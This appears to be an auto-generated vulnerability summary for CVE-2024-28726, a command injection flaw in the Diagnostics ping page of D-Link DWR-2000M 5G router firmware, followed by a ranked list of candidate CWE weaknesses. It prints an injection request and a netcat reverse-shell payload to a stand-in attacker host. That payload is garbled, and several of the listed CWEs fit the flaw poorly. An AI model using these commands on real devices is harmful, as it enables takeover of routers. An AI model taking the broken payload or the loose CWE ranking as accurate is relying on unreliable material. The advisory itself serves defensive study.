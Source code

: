 ## Vulnerability Description
An issue in DLink DWR 2000M 5G CPE With Wifi 6 Ax1800 and Dlink DWR 5G CPE DWR-2000M_1.34ME allows a local attacker to execute arbitrary code via a crafted payload to the Diagnostics function.

### Vulnerability Description Key Phrases
- **impact:** execute arbitrary code
- **vector:** crafted payload
- **attacker:** local attacker
- **product:** DLink DWR 2000M 5G CPE With Wifi 6 Ax1800 and Dlink DWR 5G CPE DWR-2000M_1.34ME
- **component:** Diagnostics function

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of CVE-2024-28726:

**Root Cause of Vulnerability:**

The vulnerability stems from a lack of proper input validation and security controls in the "Diagnostics" utility page of the D-Link DWR 2000M 5G CPE firmware. This allows for command injection via the user input field.

**Weaknesses/Vulnerabilities Present:**

*   **Command Injection:** The primary vulnerability is a command injection flaw. The firmware does not adequately sanitize user input provided to the network diagnostic tools (ping and traceroute), allowing an attacker to inject arbitrary system commands.
*   **Lack of Input Validation:** The absence of robust input validation mechanisms is a key weakness that enables the command injection vulnerability.

**Impact of Exploitation:**

*   **Arbitrary Code Execution (RCE):** Successful exploitation of the vulnerability allows an attacker to execute arbitrary system commands on the affected device.
*   **Compromised Device Integrity:** The ability to execute arbitrary commands can lead to a complete compromise of the device, potentially leading to unauthorized access.
*   **Data Extraction:** Attackers could potentially extract sensitive data stored on the device.
*   **Other Malicious Activities:** Exploitation could facilitate other malicious activities within the network environment.

**Attack Vectors:**

*   **Network Diagnostic Utility:** The vulnerability is located within the "Diagnostics" utility page of the D-Link 5G CPE firmware, specifically through the user input field of network diagnostic tools such as ping.
*   **Web Interface:** Attackers can inject commands through the web interface of the router by manipulating the target parameter of the ping command, and terminating the original command with a semicolon to start a new one.

**Required Attacker Capabilities/Position:**

*   **Access to the Device's Web Interface:** The attacker must have access to the device's web interface, implying they should be on the same network, or have the device's web interface exposed to the internet.
*   **Knowledge of the Vulnerable Endpoint:** The attacker needs to know the vulnerable endpoint which is the network diagnostic utility page.
*   **Ability to Manipulate HTTP Requests:** The attacker needs to be able to manipulate HTTP requests (e.g., using tools like Burp Suite) to inject malicious commands.
*   **Basic understanding of Command Line:** The attacker needs to understand basic command line syntax and how to use special characters (semicolons) to chain commands.

**Additional Technical Details:**

The provided exploit steps outline the following attack procedure:
1.  Log in to the CPE (Customer Premises Equipment).
2.  Navigate to the Network Diagnostics utility page.
3.  Use the Ping command to trigger the vulnerability and capture the request with a tool like Burp Suite.
4.  Inject a command by terminating the ping command with a semicolon and adding the desired system command e.g., `url.com/cgi-bin/luci/admin/status/network_diagnostics?cmdMethod=ping&target=xyz.com;id&PingCNT=5`.
5.  A reverse shell can be achieved with the following payload: `rm -f /tmp/p; mkfifo /tmp/p p && nc attackerip 4444 0/tmp/f`

This payload creates a named pipe, and redirects the input to the attacker IP address and port, allowing the attacker to receive a remote shell.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 912 | Hidden Functionality | Class | Allowed-with-Review | sparse | 0.062 |
| 2 | 1391 | Use of Weak Credentials | Class | Allowed-with-Review | sparse | 0.061 |
| 3 | 288 | Authentication Bypass Using an Alternate Path or Channel | Base | Allowed | sparse | 0.058 |
| 4 | 20 | Improper Input Validation | Class | Discouraged | sparse | 0.057 |
| 5 | 326 | Inadequate Encryption Strength | Class | Allowed-with-Review | sparse | 0.056 |
| 6 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | sparse | 0.056 |
| 7 | 425 | Direct Request ('Forced Browsing') | Base | Allowed | sparse | 0.054 |
| 8 | 285 | Improper Authorization | Class | Discouraged | sparse | 0.054 |
| 9 | 121 | Stack-based Buffer Overflow | Variant | Allowed | dense | 0.603 |
| 10 | 73 | External Control of File Name or Path | Base | Allowed | graph | 0.002 |



# Complete CWE Specifications

CWE-912: Hidden Functionality

CWE-1391: Use of Weak Credentials

CWE-288: Authentication Bypass Using an Alternate Path or Channel

CWE-20: Improper Input Validation

CWE-326: Inadequate Encryption Strength

CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

CWE-425: Direct Request ('Forced Browsing')

CWE-285: Improper Authorization

CWE-121: Stack-based Buffer Overflow

CWE-73: External Control of File Name or Path